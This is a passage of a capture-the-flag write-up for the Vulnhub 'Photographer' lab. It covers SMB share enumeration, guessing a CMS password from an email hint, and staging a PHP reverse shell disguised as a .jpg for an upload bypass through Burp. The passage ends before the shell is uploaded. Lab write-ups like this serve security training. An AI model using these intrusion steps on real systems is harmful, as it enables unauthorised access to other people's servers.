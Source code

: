 ```highlight
smb: \> 
```

Two files are on the share, the first is an email from Agi to Daisa advising the site is ready and the other file appears to be a backup zip of the site.

```highlight
┌─[daz@parrot]─[~/Documents/Vulnhub/Photographer]
└──╼ $cat mailsent.txt 
Message-ID: <4129F3CA.2020509@dc.edu>
Date: Mon, 20 Jul 2020 11:40:36 -0400
From: Agi Clarence <agi@photographer.com>
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.0.1) Gecko/20020823 Netscape/7.0
X-Accept-Language: en-us, en
MIME-Version: 1.0
To: Daisa Ahomi <daisa@photographer.com>
Subject: To Do - Daisa Website\'s
Content-Type: text/plain; charset=us-ascii; format=flowed
Content-Transfer-Encoding: 7bit

Hi Daisa!
Your site is ready now.
Don\'t forget your secret, my babygirl ;)
┌─[daz@parrot]─[~/Documents/Vulnhub/Photographer]
└──╼ $
```

'babygirl' looks to be a hint to the password and I now have 2 users and email addresses:

- Agi Clarence - agi@photographer.com
- Daisa Ahomi - daisa@photographer.com

### Foot hold

I go back to port **8000/admin/** and try them out. I get straight in with **daisa@photographer.com** and **babygirl**. 

![CMS](/assets/images/photographer/cms.png)

Going back to the exploit from earlier, it looks like I can upload a PHP file by saving the file as .jpg then use Burp to rename it. Im going to try and upload a reverse shell PHP script. If your using Kali or ParrotOS the script can be found in /usr/share/webshells/php/ or downloaded from [pentestmonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell).


```highlight
┌─[daz@parrot]─[~/Documents/Vulnhub/Photographer]
└──╼ $cp /usr/share/webshells/php/php-reverse-shell.php .
┌─[daz@parrot]─[~/Documents/Vulnhub/Photographer]
└──╼ $mv php-reverse-shell.php shell.php.jpg
```

I update the script with my local IP and port details.

```highlight
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```
